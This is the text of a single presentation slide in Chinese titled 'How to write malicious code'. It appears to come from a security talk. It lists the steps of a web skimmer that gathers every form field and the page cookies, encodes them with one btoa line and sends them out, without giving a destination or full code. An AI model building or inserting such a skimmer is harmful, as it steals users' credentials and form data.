

如何写一个恶意代码

满足了条件后，代码会：

1.  获取页面上的所有表单字段（document.forms.forEach(…)）

2.  获取document.cookie

3.  将这些信息变成随机的字符串

4.  发送数据

const payload = btoa(JSON.stringify(sensitiveUserData))